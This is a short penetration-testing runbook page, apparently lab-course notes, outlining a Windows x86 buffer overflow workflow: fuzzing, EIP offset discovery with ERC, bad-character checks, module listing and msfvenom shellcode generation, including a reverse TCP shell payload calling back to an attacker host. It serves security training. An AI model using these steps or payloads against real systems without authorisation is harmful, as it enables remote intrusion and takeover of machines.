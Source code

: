 # buffer overflow x86 windows

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

- Create pattern
```shell
ERC --pattern c 5000
```

- Calculate exact offset
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP
```shell
$(python2 -c "print('A' * 1000 + 'B' * 4)")
```

## Identify bad chars

- Generate chars string

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```

```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

## Python

- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-windows-x86-local.py).
- A Python script for remote buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-remote.py).
